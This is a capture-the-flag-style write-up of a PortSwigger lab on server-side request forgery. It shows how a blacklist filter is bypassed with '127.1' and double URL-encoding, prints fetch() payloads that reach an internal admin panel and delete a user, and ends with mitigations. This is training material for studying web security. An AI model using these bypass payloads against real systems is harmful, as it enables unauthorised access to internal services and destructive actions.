



# PortSwigger Lab: SSRF with blacklist-based input filter

## Lab Description
- **Platform:** PortSwigger Web Security Academy
- **Difficulty:** Practitioner
- **Objective:** Change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`. The developer has deployed two weak anti-SSRF defenses that need to be bypassed.

## Vulnerability Analysis
The application's stock check functionality (`/product/stock`) is vulnerable to SSRF. The developer attempted to mitigate this by implementing a blacklist-based filter, which blocks requests containing the string `localhost` or the path `/admin`.

However, the filter is weak and can be bypassed using URL encoding and alternative IP representations. The server still processes the user-supplied URL without strict validation.

## Exploitation Steps
1. Intercepted the stock check request and attempted to access the admin panel using the standard payload:
   ```text
   stockApi=http://localhost/admin
   ```
   The server blocked the request with the message: `"External stock check blocked for security reasons"`.
2. Bypassed the IP filter by using the shorthand notation for localhost, `127.1`.
3. Bypassed the path filter by double URL-encoding the letter 'a' in the word "admin" (`%2561dmin`).
4. Sent the following payload to access the admin panel:
   ```javascript
   fetch('/product/stock', {
     method: 'POST',
     headers: {'Content-Type': 'application/x-www-form-urlencoded'},
     body: 'stockApi=http://127.1/%2561dmin'
   })
   .then(r => r.text())
   .then(t => console.log(t));
   ```
   The server returned the HTML of the admin panel, including the link to delete the user `carlos`.
5. Sent the final payload to delete `carlos`:
   ```javascript
   fetch('/product/stock', {
     method: 'POST',
     headers: {'Content-Type': 'application/x-www-form-urlencoded'},
     body: 'stockApi=http://127.1/%2561dmin/delete?username=carlos'
   })
   .then(r => r.text())
   .then(t => console.log(t));
   ```
6. The user was successfully deleted, and the lab was solved.

## Evidence

### Filter Blocking Standard Payload


### Bypassing Filter (Admin Panel Access)


### Lab Solved (Deletion and Success)


## Mitigation
To prevent this vulnerability, the application must implement robust SSRF protection.
1. **Allowlist Validation:** Instead of a blacklist, only allow requests to specific, trusted domains.
2. **Strict IP Parsing:** Ensure that the URL parser correctly resolves alternative IP representations (like `127.1`, decimal, or hex) and blocks them.
3. **Disable URL Encoding:** Do not accept double-encoded URLs for state-changing actions.